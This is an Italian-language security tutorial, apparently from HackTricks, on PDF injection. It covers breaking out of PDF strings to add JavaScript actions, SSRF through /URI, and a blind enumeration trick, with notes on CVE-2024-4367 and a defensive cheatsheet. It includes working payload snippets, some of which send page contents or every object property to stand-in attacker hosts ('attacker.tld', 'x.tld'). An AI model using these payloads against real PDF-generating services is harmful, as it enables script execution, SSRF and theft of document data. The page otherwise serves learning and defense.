 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Se il tuo input viene riflesso all'interno di un file PDF, puoi provare a iniettare dati PDF per eseguire JavaScript, effettuare SSRF o rubare il contenuto del PDF.**
La sintassi PDF è estremamente permissiva: se riesci a uscire dalla stringa o dal dizionario che sta incorporando il tuo input, puoi aggiungere oggetti completamente nuovi (o nuove chiavi nello stesso oggetto) che Acrobat/Chrome analizzerà felicemente.
Dal 2024, una serie di report di bug-bounty hanno dimostrato che *una parentesi non scappata o una barra rovesciata è sufficiente* per l'esecuzione completa dello script.

## TL;DR – Flusso di attacco moderno (2024)
1. Trova qualsiasi valore controllato dall'utente che finisca all'interno di una **(stringa di parentesi)**, `/URI ( … )` o campo `/JS ( … )` nel PDF generato.
2. Inietta `) ` (chiudendo la stringa) seguito da uno dei primitivi qui sotto e termina con un'altra parentesi aperta per mantenere la sintassi valida.
3. Consegna il PDF malevolo a una vittima (o a un servizio backend che rende automaticamente il file – ottimo per bug ciechi).
4. Il tuo payload viene eseguito nel visualizzatore PDF:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (vedi CVE-2024-4367)
* Acrobat → API JavaScript completa (può esfiltrare contenuti di file arbitrari con `this.getPageNthWord`)

Esempio (dirottamento del link di annotazione):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*Il primo `)` chiude la stringa URI originale, quindi aggiungiamo un nuovo dizionario **Action** che Acrobat eseguirà quando l'utente clicca sul link.*

## Utili Primitivi di Iniezione
| Obiettivo | Frammento Payload | Note |
|-----------|-------------------|------|
| **JavaScript all'apertura** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Esegue istantaneamente quando il documento viene aperto (funziona in Acrobat, non in Chrome). |
| **JavaScript sul link** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Funziona in PDFium & Acrobat se controlli un'annotazione `/Link`. |
| **Esfiltrazione di dati cieca** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Combina con `this.getPageNthWord` all'interno di JS per rubare contenuti. |
| **SSRF lato server** | Stesso di sopra ma targetizza un URL interno – ottimo quando il PDF è reso da servizi di back-office che rispettano `/URI`. |
| **Interruzione di linea per nuovi oggetti** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Se la libreria ti consente di iniettare caratteri di nuova linea, puoi creare oggetti completamente nuovi. |

## Trucco di Enumerazione Cieca
Gareth Heyes (PortSwigger) ha rilasciato una riga di codice che enumera ogni oggetto all'interno di un documento sconosciuto – utile quando non puoi vedere il PDF generato:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Il codice itera sul DOM di Acrobat e fa richieste outbound per ogni coppia proprietà/valore, fornendoti un dump *JSON-ish* del file. Vedi il white-paper “Portable Data **ex**Filtration” per la tecnica completa.

## Bug nel Mondo Reale (2023-2025)
* **CVE-2024-4367** – Esecuzione arbitraria di JavaScript in PDF.js di Firefox prima della versione 4.2.67 ha bypassato il sandbox con un'azione `/JavaScript` creata ad hoc.
* **Bug bounty 2024-05** – Un importante fintech ha consentito note di fattura fornite dai clienti che sono arrivate in `/URI`; il report ha pagato $10k dopo aver dimostrato SSRF verso l'host di metadata interno utilizzando `file:///` URI.
* **CVE-2023-26155** – Iniezione di comando `node-qpdf` tramite percorso PDF non sanitizzato mostra l'importanza di eseguire l'escape di backslash e parentesi anche *prima* del layer PDF.

## Cheatsheet Difensivo
1. **Non concatenare mai input utente raw** all'interno di stringhe o nomi `(`…`)`. Esegui l'escape di `\`, `(`, `)` come richiesto dal §7.3 della specifica PDF o utilizza stringhe esadecimali `<...>`.
2. Se costruisci link, preferisci `/URI (https://…)` che codifichi *completamente* l'URL; blocca gli schemi `javascript:` nei visualizzatori client.
3. Rimuovi o valida i dizionari `/OpenAction`, `/AA` (azioni aggiuntive), `/Launch`, `/SubmitForm` e `/ImportData` durante il post-processing dei PDF.
4. Sul lato server, rendi i PDF non fidati con un *convertitore headless* (es. qpdf –decrypt –linearize) che rimuove JavaScript e azioni esterne.
5. Tieni aggiornati i visualizzatori PDF; PDF.js < 4.2.67 e Acrobat Reader prima di luglio 2024 consentono l'esecuzione di codice banale.

## Riferimenti
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (aggiornato maggio 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Esecuzione Arbitraria di JavaScript in PDF.js” (apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
